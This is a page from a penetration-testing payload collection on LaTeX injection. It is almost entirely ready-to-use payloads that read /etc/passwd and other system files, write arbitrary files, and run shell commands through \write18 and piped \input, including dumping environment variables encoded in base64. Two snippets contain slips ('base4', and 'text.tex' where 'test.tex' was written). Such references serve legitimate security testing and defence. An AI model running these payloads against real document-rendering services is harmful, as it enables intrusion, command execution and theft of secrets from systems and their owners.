

repository: swisskyrepo/PayloadsAllTheThings · page: LaTeX Injection/index.html · generator: mkdocs

# LaTex Injection

## Read file

```bash
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file

```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file

```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, keep the formatting

```bash
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

## Write file

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```
